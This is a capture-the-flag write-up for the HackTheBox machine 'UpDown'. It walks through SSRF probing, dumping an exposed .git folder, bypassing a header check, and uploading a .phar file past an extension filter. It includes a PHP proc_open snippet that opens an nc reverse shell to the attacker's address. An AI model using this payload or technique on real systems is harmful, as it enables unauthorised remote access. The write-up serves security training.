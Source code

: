 ```yaml
---
title: UpDown HackTheBox Writeup
tags: [writeup,python,git,hackthebox,linux,easy-install,php,.phar,proc_open]
style: border
color: success
description: ""
---
```


[![](https://blogger.googleusercontent.com/img/a/AVvXsEjF1jdJKFLjieZGTgqjTxuAWn9wqli89CjChm5zelOh09ufDsqGbVFhNaqOYFlZZUuxwGbjIkF1p5XN9vvmH3KuzixK7Zx9meIslrE1kucdA-BfcXar7hzZmCsdbpmo5LatMrnSyWxcYT4i8xuLdMlCiuyqUaIwUB72r_J0YuppZdAdcTGue3DXhEACsA=w640-h485)](https://blogger.googleusercontent.com/img/a/AVvXsEjF1jdJKFLjieZGTgqjTxuAWn9wqli89CjChm5zelOh09ufDsqGbVFhNaqOYFlZZUuxwGbjIkF1p5XN9vvmH3KuzixK7Zx9meIslrE1kucdA-BfcXar7hzZmCsdbpmo5LatMrnSyWxcYT4i8xuLdMlCiuyqUaIwUB72r_J0YuppZdAdcTGue3DXhEACsA)

  

 Scanning
=========

We scan with **nmap** to all ports, with scripts and software versions::

[![](https://blogger.googleusercontent.com/img/a/AVvXsEisA0iL4kcC7ynnWANf4oBgsqzlhG5564bx0GcuKFTSnRzXP0WQ6i2JxHfpjNc-89cGjdmdGzT41rQs0FSyMNjbQJCNmoLdqBeHazpTbdf1nF51il0PXy6EB4emvdb03W2tsl6tW8gWcUxq6yRJIujAiVFni4xS3PCrsawGsSyqPi53mh4C3lj7RTlLWg=w640-h206)](https://blogger.googleusercontent.com/img/a/AVvXsEisA0iL4kcC7ynnWANf4oBgsqzlhG5564bx0GcuKFTSnRzXP0WQ6i2JxHfpjNc-89cGjdmdGzT41rQs0FSyMNjbQJCNmoLdqBeHazpTbdf1nF51il0PXy6EB4emvdb03W2tsl6tW8gWcUxq6yRJIujAiVFni4xS3PCrsawGsSyqPi53mh4C3lj7RTlLWg)

  

Enumeration
===========

We access the web resource, list the domain "_siteisup.htb_" and see a form to check websites.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhJA71ZSP-wjcPZzcVef3gtUJS0njfDJykTN2DoozfmAAFzf0gOW4RaiSQwYbYdUyCtMb8B9-eTUIBNoAAl-IZk2IkkizZGNTbbttEIAXsCL1-Y8SaFFroUQ4Jc_Mn6EYjPsJkS1ZpBKbPAxmaIDXzDscrMpOT6ba_rVWc_PA0uRhZIBu3W68gmRVUSyw=w640-h580)](https://blogger.googleusercontent.com/img/a/AVvXsEhJA71ZSP-wjcPZzcVef3gtUJS0njfDJykTN2DoozfmAAFzf0gOW4RaiSQwYbYdUyCtMb8B9-eTUIBNoAAl-IZk2IkkizZGNTbbttEIAXsCL1-Y8SaFFroUQ4Jc_Mn6EYjPsJkS1ZpBKbPAxmaIDXzDscrMpOT6ba_rVWc_PA0uRhZIBu3W68gmRVUSyw)

  
We tested the form in debug mode with "_google.com_", but we do not see any information in the "_debug mode_" field:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgdz4aGu3HSH299AN0flZpR6kaJLjcMgf9PBfZXFDmt8k7k7m3KlP3if0NwT_9iZPytKyuz4kGMgvhH2hgiHyAMh-sIu92Z5GbczOQNduCRNlQnnXfGAeX1LW_TS2NuIhNJ7qHDCdUFcFiIvxjwwbhBJbIYELc28qOqqLtd_zCpCrGO17l3h68iXCrW_w=w400-h258)](https://blogger.googleusercontent.com/img/a/AVvXsEgdz4aGu3HSH299AN0flZpR6kaJLjcMgf9PBfZXFDmt8k7k7m3KlP3if0NwT_9iZPytKyuz4kGMgvhH2hgiHyAMh-sIu92Z5GbczOQNduCRNlQnnXfGAeX1LW_TS2NuIhNJ7qHDCdUFcFiIvxjwwbhBJbIYELc28qOqqLtd_zCpCrGO17l3h68iXCrW_w)

  
We try to raise a server with **Python** and we see that the application does not like it:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEg7wPQXv8QYDagWoIe5ithAp70Bnp6ksF-QERqEYQQzURb654J0llSuBqtOUYj_PvK12MRrIsGAFlc4xQSxE9oo6g4jCbfoHdodyfBvli9chJKCtkFaug4FcOgkZuUS4t2TyAgOrvn5PvQ_GIWt3kzXwrdJGTI64J4hnFx-cXpmN_w8qAngomRz-l36WA=w627-h640)](https://blogger.googleusercontent.com/img/a/AVvXsEg7wPQXv8QYDagWoIe5ithAp70Bnp6ksF-QERqEYQQzURb654J0llSuBqtOUYj_PvK12MRrIsGAFlc4xQSxE9oo6g4jCbfoHdodyfBvli9chJKCtkFaug4FcOgkZuUS4t2TyAgOrvn5PvQ_GIWt3kzXwrdJGTI64J4hnFx-cXpmN_w8qAngomRz-l36WA)

  
We test now entering "_http_", intercept the request with **Burp** and we see that now it prints the header of our **Python** server and our files..

[![](https://blogger.googleusercontent.com/img/a/AVvXsEh1zIKzCbBTiXNd86VnZHGT73oZdrsTzscw8p8nJTAAcmI_7ACSjMUVJRhxvXtlTAJrJZG9rcTqfyTGpfc5fxTzgfPR-s7z8w-yG1IxZi1TOpyJqUvp_s-hOR3B0XMomO8db6xj_Emj7Vy4rKcfpNhbb-SgLkDKg1udwMshOt7TT0VshH2wZdQijfsVow=w640-h338)](https://blogger.googleusercontent.com/img/a/AVvXsEh1zIKzCbBTiXNd86VnZHGT73oZdrsTzscw8p8nJTAAcmI_7ACSjMUVJRhxvXtlTAJrJZG9rcTqfyTGpfc5fxTzgfPR-s7z8w-yG1IxZi1TOpyJqUvp_s-hOR3B0XMomO8db6xj_Emj7Vy4rKcfpNhbb-SgLkDKg1udwMshOt7TT0VshH2wZdQijfsVow)

  

We try to enter the IP address of the machine and we see that an _SSRF_ is generated.  

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjKrlBUPU4V6A6BOCDgngAFdLXqp203zxY-EriXXTZyEGyUD0HkJe-3LPnWasHovXitgnxNttCqIfbPqoAWmmfnvlIjONG9pQ3zR4pP2vwnPrel--4jRF4_nJsmDw4qvYe568ZpxO9a4FnXNv15UNEordl9V6aT6Tgogh8C4i4cPoCBA-JFehusmdwbBg=w640-h410)](https://blogger.googleusercontent.com/img/a/AVvXsEjKrlBUPU4V6A6BOCDgngAFdLXqp203zxY-EriXXTZyEGyUD0HkJe-3LPnWasHovXitgnxNttCqIfbPqoAWmmfnvlIjONG9pQ3zR4pP2vwnPrel--4jRF4_nJsmDw4qvYe568ZpxO9a4FnXNv15UNEordl9V6aT6Tgogh8C4i4cPoCBA-JFehusmdwbBg)

  
  

Testing, we see that some filters are being applied on some special characters, so I inserted a list of them and listed those that are allowed:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEivCY33yhoMxaJXSXGbdltNgpgi5q1roGmJ04C20WBcJF9kzIOL2WE5_tjwaWk375Jl3Vj_sSgXxz0L4Ncvh0jyWuBrKZL-AQp3szfnXqloB6eWEjHmtmAT-ZvWngc7YcBwTHuZHy3_8GfNZcs62PwawJrqv3Y8Mskw_XRzRq2RKS8MLEAUo7LiEiflPw=w640-h466)](https://blogger.googleusercontent.com/img/a/AVvXsEivCY33yhoMxaJXSXGbdltNgpgi5q1roGmJ04C20WBcJF9kzIOL2WE5_tjwaWk375Jl3Vj_sSgXxz0L4Ncvh0jyWuBrKZL-AQp3szfnXqloB6eWEjHmtmAT-ZvWngc7YcBwTHuZHy3_8GfNZcs62PwawJrqv3Y8Mskw_XRzRq2RKS8MLEAUo7LiEiflPw)

  

We tried to load some relevant files from the machine but nothing, we can't load external documents and execute code either.

  

We launch **dirsearch** looking for possible directories and files, we list the "_dev_" directory:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhtVkZJZfmwhlde60Zqf2X5hlRjHM4CZ_hv4Y21SfhviOYTmEzuZr9bnY7aRl2RIXlOajLPXnORHwCfbyIOSpMUcncWmHrzXSmXkxnJgIZ6TMFTMuOOyN5gmLQ5GuavO6ZQ7rukyUhpgTVaG7c74OP4WuGqNVOw9JQKNSgnVRIRRGeAEcL1fo-GNJ8IyQ=w640-h584)](https://blogger.googleusercontent.com/img/a/AVvXsEhtVkZJZfmwhlde60Zqf2X5hlRjHM4CZ_hv4Y21SfhviOYTmEzuZr9bnY7aRl2RIXlOajLPXnORHwCfbyIOSpMUcncWmHrzXSmXkxnJgIZ6TMFTMuOOyN5gmLQ5GuavO6ZQ7rukyUhpgTVaG7c74OP4WuGqNVOw9JQKNSgnVRIRRGeAEcL1fo-GNJ8IyQ)

  
We access the "_dev_" directory, but there seems to be nothing.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEi4sdU_ECJQ7Ep-tJGnmOBJJRHVXLz9uw7_crMin7lgHqlnFC0IlcrS3MrxUB4IWhXZt2t8kJHo_2MsHjZcGnaJ9VzPEWSiC0rgSBjg0wcr1fmLb3Dy1P3oTnYVWVSjW2fVqAOaGrT-G5Wd46WrZSAaZfTZzfg-7TJDjWsAP4k37mR-7wy5DwQpZrgJ8Q=w400-h256)](https://blogger.googleusercontent.com/img/a/AVvXsEi4sdU_ECJQ7Ep-tJGnmOBJJRHVXLz9uw7_crMin7lgHqlnFC0IlcrS3MrxUB4IWhXZt2t8kJHo_2MsHjZcGnaJ9VzPEWSiC0rgSBjg0wcr1fmLb3Dy1P3oTnYVWVSjW2fVqAOaGrT-G5Wd46WrZSAaZfTZzfg-7TJDjWsAP4k37mR-7wy5DwQpZrgJ8Q)

  

We launch **wfuzz** to list possible subdomains, we find one called "_dev.siteisup.htb_":

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEi5M7dsM6ovRiFmPQzS4xANf3GjpM2m2UAtZZ8eYGffGQwMGQ91VJkQhYxjFd3Zkfx0yNpepYipXQBme8U9VEaiaHRGNyhFOPSLtV8AGW3nCDCH1MeR2khmKNJbmquKh8vBYHtYiz5cjf86qdszQtF9QayNUfI_CgQndA266rPDYVXhfNEw2gqmD0RQ4Q=w640-h188)](https://blogger.googleusercontent.com/img/a/AVvXsEi5M7dsM6ovRiFmPQzS4xANf3GjpM2m2UAtZZ8eYGffGQwMGQ91VJkQhYxjFd3Zkfx0yNpepYipXQBme8U9VEaiaHRGNyhFOPSLtV8AGW3nCDCH1MeR2khmKNJbmquKh8vBYHtYiz5cjf86qdszQtF9QayNUfI_CgQndA266rPDYVXhfNEw2gqmD0RQ4Q)

  
We are trying to access the web resource but we do not have permissions:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjQy9elSkUrAAHXcK3ZdrWcz6HRGxiphDCGA7lZ-fsMPiNRfYH-cIEoY-0xGP1VCrZCdOVxyeFbB_0ZGQiiJcjtiBHjdBG-t9kE8A9fma7ICyyeBJXmgUg_hSEay7BZlQQl8NRjLOVvCnlWUvgOAa1cUQIPo2gmNrCSjYDg8HInLPBVPjafaECOmceUzA=w400-h151)](https://blogger.googleusercontent.com/img/a/AVvXsEjQy9elSkUrAAHXcK3ZdrWcz6HRGxiphDCGA7lZ-fsMPiNRfYH-cIEoY-0xGP1VCrZCdOVxyeFbB_0ZGQiiJcjtiBHjdBG-t9kE8A9fma7ICyyeBJXmgUg_hSEay7BZlQQl8NRjLOVvCnlWUvgOAa1cUQIPo2gmNrCSjYDg8HInLPBVPjafaECOmceUzA)

  
So we launch **dirsearch** again on the "_dev_" directory, we list a "_.git_" folder::

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiWTMnKSUifilcHIbU3wIv1pWudPeeCbHfR94qrPj12AcQOwcKviVhzy8tEADlY91SBr1jEWJ-5YfBKCNTBY1LwxDnjl3_SeLSieztZmvYqFjkKYbV9TE3iqt_2Eay_wXpzNnGaz7lR_EgzSGyS0oes0PKoM1ak7bgyqN-YMEWyXK_Sd3EuLQro5SNm4Q=w640-h488)](https://blogger.googleusercontent.com/img/a/AVvXsEiWTMnKSUifilcHIbU3wIv1pWudPeeCbHfR94qrPj12AcQOwcKviVhzy8tEADlY91SBr1jEWJ-5YfBKCNTBY1LwxDnjl3_SeLSieztZmvYqFjkKYbV9TE3iqt_2Eay_wXpzNnGaz7lR_EgzSGyS0oes0PKoM1ak7bgyqN-YMEWyXK_Sd3EuLQro5SNm4Q)

  
We already know this from other machines, so we download the "**gittools**" tool to download and extract the information from the "_.git_" folder on the server.

### Dumpeo of .git files

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgcWUa8TCULjiuwFT8bVb0_XIx_awnEP0k5qnVhlDA2gKaFLGwFNjjCeCew6H6dEGiC63eYFenv5lpBxaR9kYOj4n4VxH7XRbxYUbcWVlESPeKxQrGtxuufUQTJ-9BuzGAASWXcwQNIfpg6YC10qPcdev2eNr0yxxOI7IhUdYpPHgtbVg3D801qtLDGeQ=w640-h430)](https://blogger.googleusercontent.com/img/a/AVvXsEgcWUa8TCULjiuwFT8bVb0_XIx_awnEP0k5qnVhlDA2gKaFLGwFNjjCeCew6H6dEGiC63eYFenv5lpBxaR9kYOj4n4VxH7XRbxYUbcWVlESPeKxQrGtxuufUQTJ-9BuzGAASWXcwQNIfpg6YC10qPcdev2eNr0yxxOI7IhUdYpPHgtbVg3D801qtLDGeQ)

### Reading the "_config_" file:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEis5V4FHgLymspeY51iXDxLDFtyZYBiGzp2c2ONDcoFuDm9HeLorTkviDIqrKNy7Wl5uysmnqAI6lwuKaTGJgEIFQz9fHcXimAXRdk5I5L_gBm9Xy_yN9j6z5hyVcdWDFfnjrPzOMx0h4gaPufYhTINqp0bfEZQKcWUy-pynRLpYS_JNE4gscvXkNWIlQ=w400-h235)](https://blogger.googleusercontent.com/img/a/AVvXsEis5V4FHgLymspeY51iXDxLDFtyZYBiGzp2c2ONDcoFuDm9HeLorTkviDIqrKNy7Wl5uysmnqAI6lwuKaTGJgEIFQz9fHcXimAXRdk5I5L_gBm9Xy_yN9j6z5hyVcdWDFfnjrPzOMx0h4gaPufYhTINqp0bfEZQKcWUy-pynRLpYS_JNE4gscvXkNWIlQ)

  

_Note: The following evidences are shown with a change of look of my desktop and terminal._

  

We see the list of files:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgxcMputigFSHMKpz4-L1W4ICw_eITLzRqR-Jip5i2SYSbQZNywZ0crM46mCdyRaq3NlbRYQDCTTFo__YtXmsWU1V6tzhBzj2i0Qh9umHcMsq6hwDPsY1oaFIDwRNMAHt4Wk6d41LxJZa345O5lm3x6WyDJoYuHYGleuh_0_pRTFfYv2hHHspx3HsCFxg=w640-h188)](https://blogger.googleusercontent.com/img/a/AVvXsEgxcMputigFSHMKpz4-L1W4ICw_eITLzRqR-Jip5i2SYSbQZNywZ0crM46mCdyRaq3NlbRYQDCTTFo__YtXmsWU1V6tzhBzj2i0Qh9umHcMsq6hwDPsY1oaFIDwRNMAHt4Wk6d41LxJZa345O5lm3x6WyDJoYuHYGleuh_0_pRTFfYv2hHHspx3HsCFxg)

  

### $ git log

     commit 8812785e31c879261050e72e20f298ae8c43b565  
     Author: Abdou.Y   
     Date:  Wed Oct 20 16:38:54 2021 +0200  
       New technique in header to protect our dev vhost.  
    

We read the contents of _8812785e31c879261050e72e20f298ae8c43b565:_

     SetEnvIfNoCase Special-Dev "only4dev" Required-Header  
     Order Deny,Allow  
     Deny from All  
     Allow from env=Required-Header  
    

We add the header and we see that now we have access to the content of the website:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjTr8psot4EIGAyvKqne1sPf56WwnTCZlzz8bMjyXNgbkTcdcFwAHQMmel1hdEVkUYYf4xDUvdES5OsXw7aGi_WUzbCbOM9LUJdjLkJput8B4UKGT6LpjvI76mDhUr1qaPbOzKA6YqJ7kmkwe770eyX-ks3gd4QqeoPA9gnx6Ir4fGeDVegqvQKEIbM0w=w640-h300)](https://blogger.googleusercontent.com/img/a/AVvXsEjTr8psot4EIGAyvKqne1sPf56WwnTCZlzz8bMjyXNgbkTcdcFwAHQMmel1hdEVkUYYf4xDUvdES5OsXw7aGi_WUzbCbOM9LUJdjLkJput8B4UKGT6LpjvI76mDhUr1qaPbOzKA6YqJ7kmkwe770eyX-ks3gd4QqeoPA9gnx6Ir4fGeDVegqvQKEIbM0w)

  

### Visualization from the browser:

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjPd7Uu7vXqn4vKbfFxiVDeqDeYHFS5a9n_ofeoTXCBh7rkeaIVEG8KIVSoTJoAGPv2Gl9KnFOUK0UduECkjgCR1leDrd9upftF1o8p7ZfvHpoBN5JL7epprLI-US3Ss03I79NnG58vJ7q-wxVfz4p1pmQimqK4saJoWw_MU_M20NZDln4iorhbCvn5ag=w640-h382)](https://blogger.googleusercontent.com/img/a/AVvXsEjPd7Uu7vXqn4vKbfFxiVDeqDeYHFS5a9n_ofeoTXCBh7rkeaIVEG8KIVSoTJoAGPv2Gl9KnFOUK0UduECkjgCR1leDrd9upftF1o8p7ZfvHpoBN5JL7epprLI-US3Ss03I79NnG58vJ7q-wxVfz4p1pmQimqK4saJoWw_MU_M20NZDln4iorhbCvn5ag)

  
I added the header "_Special-Dev: only4dev_" to the **Burp**, so that it would insert it automatically and I wouldn't miss any details:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgU8iDm_ENhM40Qb1fXeXZ_6-3LRm0CoX-OvPphcf5IEX-nWNwzR1MnE7T0-3JMLQes9YxRR9Tg4HLZ6p7WLQnLlLWnqgAxxNCP7Ie33GRIzjJkniVdG-qhgLdxaGsvCqdNJzTTEj1sEZCXLjdDIhs9411cFkTni4yXPI_4WiEOVovJxILEu2sSRUngnA=w640-h434)](https://blogger.googleusercontent.com/img/a/AVvXsEgU8iDm_ENhM40Qb1fXeXZ_6-3LRm0CoX-OvPphcf5IEX-nWNwzR1MnE7T0-3JMLQes9YxRR9Tg4HLZ6p7WLQnLlLWnqgAxxNCP7Ie33GRIzjJkniVdG-qhgLdxaGsvCqdNJzTTEj1sEZCXLjdDIhs9411cFkTni4yXPI_4WiEOVovJxILEu2sSRUngnA)

  
We try to upload a **PHP** file, but we see that it is not allowed:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiPdCIYCf5EGxQLaUKHsSSlbrQh4sqJjEY8bN3V26wSPJ433oJRD_EjhSj-lYNqytjRsyMhsDh9Jkn8PBr1W19AiPSm2CW8efmjFMoYM_s2PzEMv6o4rwCRwLWN6kAmgj-q6iaspP6N4b5OPNupw0iEBNnxPSNpRas1sA0zPpWjukdrK_XiRM-2pesoWA=w640-h428)](https://blogger.googleusercontent.com/img/a/AVvXsEiPdCIYCf5EGxQLaUKHsSSlbrQh4sqJjEY8bN3V26wSPJ433oJRD_EjhSj-lYNqytjRsyMhsDh9Jkn8PBr1W19AiPSm2CW8efmjFMoYM_s2PzEMv6o4rwCRwLWN6kAmgj-q6iaspP6N4b5OPNupw0iEBNnxPSNpRas1sA0zPpWjukdrK_XiRM-2pesoWA)

  
  

Checking the **git** files, we found one called "_checker.php_", these two functions reveal the forbidden file extensions. We also see that create a file in the "_uploads_" directory for the time in md5, we have already encountered this on other machines and we will solve it by making an automated script.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEiPuDVhwkXrok4S1QgWRUaexO2CrKbEOwQAspRCxQoGy5QDuECp69bVkDJ0blQGppWNmK30OIop5AJzr1Mx6t7mLniZmMTW3zSYyX3mLb3iJKLX6AU-yPsaglppgI9nDMBGS0pVty7qfcG0_YVDuQU2cpD111mrdagDgdkQLzs4JZYJDTc28ko4PJQ4Vw=w640-h196)](https://blogger.googleusercontent.com/img/a/AVvXsEiPuDVhwkXrok4S1QgWRUaexO2CrKbEOwQAspRCxQoGy5QDuECp69bVkDJ0blQGppWNmK30OIop5AJzr1Mx6t7mLniZmMTW3zSYyX3mLb3iJKLX6AU-yPsaglppgI9nDMBGS0pVty7qfcG0_YVDuQU2cpD111mrdagDgdkQLzs4JZYJDTc28ko4PJQ4Vw)

  
Checking files, we found that the "_.phar_" is not contemplated, so it is possible that it will work.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEi4908_BTyzbxWCOh4PRPVh6TTWi4oQkGD5Q0VtbKykyVDiBtoo75JTklMxiQu6gy7Dj3gIMe42lNf9-mBhRQBfC-zm1E99KkYfB_d2AsUL6Dp6TwyFHHkQcIU8PK-4dUgi2VYAumLSmhGijN4MO_ea6iwRaZbjpi_GzckvpROdYZ1sphx9nBNbSJ8q4Q=w640-h438)](https://blogger.googleusercontent.com/img/a/AVvXsEi4908_BTyzbxWCOh4PRPVh6TTWi4oQkGD5Q0VtbKykyVDiBtoo75JTklMxiQu6gy7Dj3gIMe42lNf9-mBhRQBfC-zm1E99KkYfB_d2AsUL6Dp6TwyFHHkQcIU8PK-4dUgi2VYAumLSmhGijN4MO_ea6iwRaZbjpi_GzckvpROdYZ1sphx9nBNbSJ8q4Q)

  

We see that it has passed the filtering, but it returns another error, we look for the error in the **git** files and we find these lines. It seems that it is doing a URL check to check if they are active or not and then this file is deleted.

  

Given this, we should try to delay this execution to give us enough time to execute our **PHP** code.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEj-La16CiQ8TL5hT0iatpH1th-TAvZMhIB3QsBoMKyeyGZyK0m0SxX0Xd12atBOztawKx1xCHsvIlxOg1NmgPBU8i1oDtkX3ThTX8ZFMA5OtbTLFE8ArijubjS0G56yKBIlJqT_qHrNiZCwAHQvSzrHmu89WbgfssHeqitVKrvfHN9GPQTwTNvUIAt4ig=w640-h214)](https://blogger.googleusercontent.com/img/a/AVvXsEj-La16CiQ8TL5hT0iatpH1th-TAvZMhIB3QsBoMKyeyGZyK0m0SxX0Xd12atBOztawKx1xCHsvIlxOg1NmgPBU8i1oDtkX3ThTX8ZFMA5OtbTLFE8ArijubjS0G56yKBIlJqT_qHrNiZCwAHQvSzrHmu89WbgfssHeqitVKrvfHN9GPQTwTNvUIAt4ig)

  
The luck we are going to have is that we are going to save code, since it is possible to list the folders generated in MD5, so we would only have to slow down the execution to give us enough time to read our code.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgt3xGKZ4duGDvEMHBs9Nibdyw-_q-AX5j2LPZ6zh0XeWms_fi2Z1oKQzhZqCoYd0j5JqZhwFILl752_MYshG7l9yyAsNQ4qVUKGxU9y_E068kbnml9MDN_Eq23_PFGGET5MXBaB4_qnyAb6rlPZwOfB1d4Cbi6d2r8z3QSmGf0WwqWvxUSu9ne96FFNA=w640-h276)](https://blogger.googleusercontent.com/img/a/AVvXsEgt3xGKZ4duGDvEMHBs9Nibdyw-_q-AX5j2LPZ6zh0XeWms_fi2Z1oKQzhZqCoYd0j5JqZhwFILl752_MYshG7l9yyAsNQ4qVUKGxU9y_E068kbnml9MDN_Eq23_PFGGET5MXBaB4_qnyAb6rlPZwOfB1d4Cbi6d2r8z3QSmGf0WwqWvxUSu9ne96FFNA)

  
And we see it works!

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEhQwJzWXZlxSz09qgeZX6_QIZyOm4h_IxcWgUFY1QhilvAEW7g6t04W5VDwVmmSApMwceDEiEQwko_NuzHM4WiTfW5Cps-3ixxLsHY6iWTarxbRa08q7dg1QnaXzDqU9F5kdPR78Yw9X4JlkwjqbDvjeR6LHdMl6-cvQIu_zV__uRUwyyzVbNFjfqGq_g=w640-h348)](https://blogger.googleusercontent.com/img/a/AVvXsEhQwJzWXZlxSz09qgeZX6_QIZyOm4h_IxcWgUFY1QhilvAEW7g6t04W5VDwVmmSApMwceDEiEQwko_NuzHM4WiTfW5Cps-3ixxLsHY6iWTarxbRa08q7dg1QnaXzDqU9F5kdPR78Yw9X4JlkwjqbDvjeR6LHdMl6-cvQIu_zV__uRUwyyzVbNFjfqGq_g)

  
We take advantage of this file to check the disabled functions, we find "_shell\_exec_", "_popen_", "_passthru_", "_system_".... But we do not see "_preg\_replace_" disabled, so we could still make replacement and execute commands.

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEgrjkANjsiqNh-Mt3RK6mjPD4Rm0lcAH_n8VglFa0AwbvqEgbNhZ6kLuTrozTbqjP0OoTB32arEyvI7GWZa9JoL6Od_B47hueBMtMXVlmZnTPLOppX0HEAKg-_Qt5za0TzeZVvgisdKiZpOIp9ethf4PNOmAprCPCvQ9kElHR--k0NrGrE-iWlWc8TI4g=w640-h126)](https://blogger.googleusercontent.com/img/a/AVvXsEgrjkANjsiqNh-Mt3RK6mjPD4Rm0lcAH_n8VglFa0AwbvqEgbNhZ6kLuTrozTbqjP0OoTB32arEyvI7GWZa9JoL6Od_B47hueBMtMXVlmZnTPLOppX0HEAKg-_Qt5za0TzeZVvgisdKiZpOIp9ethf4PNOmAprCPCvQ9kElHR--k0NrGrE-iWlWc8TI4g)

  

We tried to insert a _preg\_replace_, but it doesn't work.:

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjW4lJ_WqH5eawW6KkiHuhCOZcD42CZiYOgOODdLlu1pUcRkCKtQKzVxWhGZipCZtykOiBjV-eFexQpUV-TR6KXOLWD4FuEIoDnj_GHLHeQL-cJD4AwG6KeSZB1m1x0XhFZZiiqjBdKEjImgDdcFLFXut5YEyg7JqiVzHXQ0QFyfaZW13CLoWe6DogZQA=w640-h354)](https://blogger.googleusercontent.com/img/a/AVvXsEjW4lJ_WqH5eawW6KkiHuhCOZcD42CZiYOgOODdLlu1pUcRkCKtQKzVxWhGZipCZtykOiBjV-eFexQpUV-TR6KXOLWD4FuEIoDnj_GHLHeQL-cJD4AwG6KeSZB1m1x0XhFZZiiqjBdKEjImgDdcFLFXut5YEyg7JqiVzHXQ0QFyfaZW13CLoWe6DogZQA)

  
Searching the internet, I discovered that with proc\_open you can also execute code: [PHP: proc\_open - Manual](https://www.php.net/manual/en/function.proc-open.php)

  
```php
     <?php  
     $descriptorspec = array(  
       0 => array("pipe", "r"), // stdin is a pipe that the child will read from  
       1 => array("pipe", "w"), // stdout is a pipe that the child will write to  
       2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to  
     );  
     $cwd = '/tmp';  
     $env = array('some_option' => 'aeiou');  
     $process = proc_open('php', $descriptorspec, $pipes, $cwd, $env);  
     if (is_resource($process)) {  
       // $pipes now looks like this:  
       // 0 => writeable handle connected to child stdin  
       // 1 => readable handle connected to child stdout  
       // Any error output will be appended to /tmp/error-output.txt  
       fwrite($pipes[0], 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 443 >/tmp/f');  
       fclose($pipes[0]);  
       echo stream_get_contents($pipes[1]);  
       fclose($pipes[1]);  
       // It is important that you close any pipes before calling  
       // proc_close in order to avoid a deadlock  
       $return_value = proc_close($process);  
       echo "command returned $return_value\n";  
     }  
     ?>
```
    

So I mounted these lines in my "_shell.phar_" file and saw that it worked!

  

[![](https://blogger.googleusercontent.com/img/a/AVvXsEjTnYHA1qg0fA6WAIt8-Xhi7eFD49nNQYwES_UR2wrYu6Axn734E1kmaZ99FdzOUSBBcOA2_8ODLC6nuCU2rS9ynn9Oo3iWgBNLUEjkczeAlmV3eirosVfgliH8B36t5OFZ8b1NGcoW0CAyQfpGkl_iYMsYxXvx1Y2i4d2tYXMuMWwvufSBjwJrGpx18Q=w640-h282)](https://blogger.googleusercontent.com/img/a/AVvXsEjTnYHA1qg0fA6WAIt8-Xhi7eFD49nNQYwES_UR2wrYu6Axn734E1kmaZ99FdzOUSBBcOA2_8ODLC6nuCU2rS9ynn9Oo3iWgBNLUEjkczeAlmV3eirosVfgliH8B36t5OFZ8b1NGcoW0CAyQfpGkl_iYMsYxXvx1Y2i4d2tYXMuMWwvufSBjwJrGpx18Q)

  
We try to read the user flag, but we don't have permissions, we can't read the **SSH** key either, so for the moment we can only see some .py files:

  

